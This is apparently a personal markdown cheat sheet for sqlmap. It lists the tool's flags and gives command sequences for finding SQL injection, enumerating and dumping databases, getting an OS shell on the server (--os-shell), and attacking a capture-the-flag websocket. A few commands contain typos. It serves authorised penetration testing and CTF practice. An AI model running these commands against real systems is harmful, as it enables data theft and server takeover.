 # sqlmap

## Overview

SQLMap is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws. SQLMap has been continuously developed since 2006 and is still maintained today.

## Installation

	sudo apt install sqlmap
or
	git clone https://github.com/sqlmapproject/sqlmap.git


## Command Options

sqlmap

	-h, --help			Show basic help message and exit
	-hh			Show advanced help message and exit
	-u URL, --url=URL			Target URL
	-p <injection_point>		Selects a specific injection point
	-o - Chose all optimizations available

	-D <database_name>		Scans for a specific database
	-T <table_name>		Scans for a specific table

	--threads <threads>		Max of 10 threads
	--batch			Used for skipping any required user-input, by automatically choosing using the default option
	--dump			Dumps DBMS database table entries
	--baner		Retrieves dbms banner
	--dbms <dbms_name>		Use only sqli for a specifc dbms
	--os-shell		Try to get a remote shell on the server
	--is-dba		Check if we can get db admin priveledges
	--flush-session	Deletes the records for the current session scan and starts from the beginning
	--crawl <depth>	Crawl the website starting from the target URL
	--os-shell		Tries creating a shell on the server


## Usage Examples

sqlmap -u <address> --dump --batch
sqlmap -r <request_file_path> --dump --batch

if we dont find anything increase risk and level

sqlmap -r <request_file_path> --dump --batch --risk 3

sqlmap -r <request_file_path> --dump --batch --level 5

sqlmap -r <request_file_path> --dump --batch --level 5 --risk 3

Injection on a specific field

sqlmap -r <request_file_path> --batch -p <injection_field_name>

## Cookbook

Start by doing a simple scan without the Time technique:

	sqlmap -r <request> --technique "BEUSQ" --banner --dbs --current-user --current-db --users --roles
	Don't use --batch on the first scan
	Don't use --threads on the first scan

Try creating a shell after finding an injection

	sqlmap -r <request> --os-shell

Start by doing a basic scan of the dbms, to get some basic info

	sqlmap -r <> --batch --banner

Then add the dbms flag, and enum the dbs, users and roles

	sqlmap -r <> --batch --dbms=<dbms_name> -dbs --current-user --current-db --users --roles --threads 10

Then pick a db and enum the tables

	sqlmap -r <> --batch --dbms=<> -D <db_name> --tables

## Sqlmap and websockets

Let's say that there is a websocket running on ws://soc-player.soccer.htb:9091/, and to this endpoint we send a json data of {"id":"1000"}, we can use sqlmap to inject the id parameter.

```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"} --batch
```


## More Information

https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap
https://github.com/sqlmapproject/sqlmap/wiki/Usage
